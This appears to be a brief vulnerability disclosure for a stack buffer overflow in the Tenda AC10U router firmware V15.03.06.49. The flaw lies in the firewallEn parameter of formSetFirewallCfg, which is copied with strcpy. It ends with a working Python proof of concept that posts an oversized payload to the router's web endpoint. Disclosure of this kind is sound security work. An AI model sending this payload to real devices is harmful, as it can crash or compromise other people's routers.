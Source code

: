 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetFirewallCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](14.png)

get value from firewallEn, then call strcpy, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/SetFirewallCfg"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'firewallEn': payload})
``` 
